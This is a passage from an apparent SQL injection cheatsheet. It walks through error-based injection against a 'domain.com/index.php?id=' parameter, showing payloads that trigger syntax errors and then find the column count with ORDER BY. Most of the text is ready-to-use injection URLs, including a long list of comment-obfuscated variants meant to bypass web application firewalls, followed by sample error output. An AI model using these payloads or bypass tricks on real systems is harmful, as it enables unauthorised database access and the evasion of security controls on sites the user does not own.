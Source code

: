 `http//domain.com/index.php?id=/*!20000%0d%0a1'--+-*/`  
`http//domain.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/`

## Find the number of columns using 'ORDER BY' query

[photo](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#find-the-number-of-columns-using-order-by-query)

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

`http://domain.com/index.php?id=1' order by 1-- -`  
This query musn't shows up error, since there is no lower number than 1

- If the payload shows up error, try setting a negative value:  
    `http://domain.com/index.php?id=-1' order by 1-- -`  
    This query musn't shows up error, since there is no lower number than 1
    
    - If the payload shows up error, try removing the quote which might cause SQL error: `http://domain.com/index.php?id=605 order by 1-- -`  
        `http://domain.com/index.php?id=-605 order by 1-- -`  
        These both queries musn't shows up error. If error is still ocurring, try the following payloads:
        
        - If both of payloads don't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.  
            `http://domain.com/index.php?id=1' order by 1 desc-- -`  
            `http://domain.com/index.php?id=1' group by 1-- -`  
            `http://domain.com/index.php?id=1' group by 1-- -`  
            `http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -`  
            `http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -`  
            `http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -`  
            `http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -`  
            `http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -`  
            `http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -`  
            `http://domain.com/index.php?id=1' order/**_**/by 1-- -`  
            `http://domain.com/index.php?id=1\ order by 1-- -`  
            `http://domain.com/index.php?id=1' order by 1 asc-- -`  
            `http://domain.com/index.php?id=1' group by 1 asc-- -`  
            `http://domain.com/index.php?id=1' AND 0 order by 1-- -`
            
        - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
            
            - Add a minus (-) before 1 (example: `?id=-1' /**/ORDER/**/BY/**/ 1-- -`)
            - Remove the quote (') after the parameter value (example: `?id=1 /**/ORDER/**/BY/**/ 1-- -`)

In this case, the payload `?id=1 order by 1-- -` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

`http://domain.com/index.php?id=1 order by 1-- -` no error  
`http://domain.com/index.php?id=1 order by 2-- -` no error  
`http://domain.com/index.php?id=1 order by 3-- -` no error  
`http://domain.com/index.php?id=1 order by 4-- -` no error  
`http://domain.com/index.php?id=1 order by 5-- -` error: `Unknown column '5' in 'order clause'Unknown column '5' in 'order clause'`

